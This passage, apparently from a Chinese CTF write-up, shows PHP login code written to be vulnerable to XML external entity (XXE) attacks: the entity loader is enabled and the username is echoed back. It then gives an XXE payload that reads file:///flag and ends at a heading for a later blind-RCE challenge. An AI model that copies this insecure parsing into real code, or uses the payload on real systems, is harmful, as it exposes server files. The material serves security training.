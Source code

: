 可以得到下面的源码内容：

```php
<?php
/**
* autor: c0ny1
* date: 2018-2-7
*/

$USERNAME = 'admin'; //è´¦å·
$PASSWORD = '024b87931a03f738fff6693ce0a78c88'; //å¯ç 
$result = null;

libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');

try{
	$dom = new DOMDocument();
	$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
	$creds = simplexml_import_dom($dom);

	$username = $creds->username;
	$password = $creds->password;

	if($username == $USERNAME && $password == $PASSWORD){
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",1,$username);
	}else{
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",0,$username);
	}	
}catch(Exception $e){
	$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",3,$e->getMessage());
}

header('Content-Type: text/html; charset=utf-8');
echo $result;
?>
```

发现只要我们发送的表单中包含了username字段，那么就可以实现回显，搜易可以构建下面的payload实现flag的读取：

```php
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note [
  <!ENTITY admin SYSTEM "file:///flag">
  ]>
<user><username>&admin;</username></user>
```

## [安洵杯 2020]BASH

* 考点：无回显RCE，php审计，waf绕过
* 工具：hackbar
  